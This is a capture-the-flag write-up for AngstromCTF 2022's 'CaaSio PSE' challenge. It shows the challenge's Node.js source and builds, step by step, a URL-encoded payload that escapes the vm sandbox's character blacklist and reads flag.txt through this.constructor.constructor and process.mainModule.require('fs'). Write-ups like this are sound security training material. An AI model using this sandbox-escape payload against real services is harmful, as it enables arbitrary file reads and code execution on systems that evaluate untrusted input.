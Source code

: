 ```yaml
---
title: "AngstromCTF 2022 - Caasio PSE"
author: "mtiennnnn"
tags: js misc
---
```


# Description
This is a challenge about _escape js vm_ in AnstromCTF 2022.

![image](https://user-images.githubusercontent.com/75429369/169534308-b7189ea9-8d48-49c4-b629-78564ee942f8.png)

# Solution

Read out the description and we'll know that we have to escape something _**jsjails**_, let's connect to the _**nc**_ !

![image](https://user-images.githubusercontent.com/75429369/169534898-d96539eb-e365-4290-82be-63e288d63ec5.png)

We can figure out that the program will wait the user to input a calculation and then it will give the result.
At this point, we've already known what we have to do is escape the js vm, after researching for solution, previous write up, .... I've made a payload and test it out:

![image](https://user-images.githubusercontent.com/75429369/169539477-568f9572-9e53-4860-9007-e9f633f06ded.png)

Hmmm, it's not like the first test when we only gave it a calculation, maybe the program has blocked some characters. Let's read the source:

```js
#!/usr/local/bin/node

// flag in ./flag.txt

const vm = require("vm");
const readline = require("readline");

const interface = readline.createInterface({
    input: process.stdin,
    output: process.stdout,
});

interface.question(
    "Welcome to CaaSio: Please Stop Edition! Enter your calculation:\n",
    function (input) {
        interface.close();
        if (
            input.length < 215 &&
            /^[\x20-\x7e]+$/.test(input) &&
            !/[.\[\]{}\s;`'"\\_<>?:]/.test(input) &&
            !input.toLowerCase().includes("import")
        ) {
            try {
                const val = vm.runInNewContext(input, {});
                console.log("Result:");
                console.log(val);
                console.log(
                    "See, isn't the calculator so much nicer when you're not trying to hack it?"
                );
            } catch (e) {
                console.log("your tried");
            }
        } else {
            console.log(
                "Third time really is the charm! I've finally created an unhackable system!"
            );
        }
    }
);
```

Like I said, it has blacklist filtered some characters such as: dot, brackets, backslash, underscore, greater,...

Looks like it has filtered all the special characters but no, the percent "%" hasn't. So we can easily bypass this regex by using urlencode, remember to put the payload into _**decodeURIComponent**_ and wrap it into _**eval**_ to evaluate:

```js
eval(decodeURIComponent(this%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()))
```

![image](https://user-images.githubusercontent.com/75429369/169539910-cbec5b74-8ac9-4d92-ab8d-4e5da2211feb.png)

I've thought this is it but it didn't... Maybe something wrong with the string that made the command didn't work.

I was in the deadlock for like 4-5 hours until I read the source again and realised that the forward slash "/" hasn't filtered. We can use it as a regex to convert it into a string, just add "/" at the start and the end of the payload:

```js
eval(decodeURIComponent(/this%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()/))
```
![image](https://user-images.githubusercontent.com/75429369/169540893-a87ab025-ee63-424b-9dd2-81ee1460c895.png)

WHAT, it didn't work but at least we have a little sparkle. It done parsed the regex into string, but it didn't evaluate because it wasn't a valid expression. 

Now let me do a trick, I just add another forward slashes at the first and the end of the payload again to comment it out, then use a line break to seperate the command, so we'll have our payload works like a charm:

```js
eval(decodeURIComponent(/%2F%0Athis%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()%2F/))
```

It'll become this:

```js
eval(// commented so not evaled
this.constructor.constructor("return this.process.mainModule.require('fs').readFileSync('flag.txt')")() //) commented so not evaled
```
![image](https://user-images.githubusercontent.com/75429369/169543579-e158e4a9-7f6c-42aa-8244-71ba0e584980.png)

Take the buffer and decode by hex and we'll get the flag yay

```
actf{omg_js_is_like_so_quirky_haha}
```

Thank you for reading !!!

_The End_
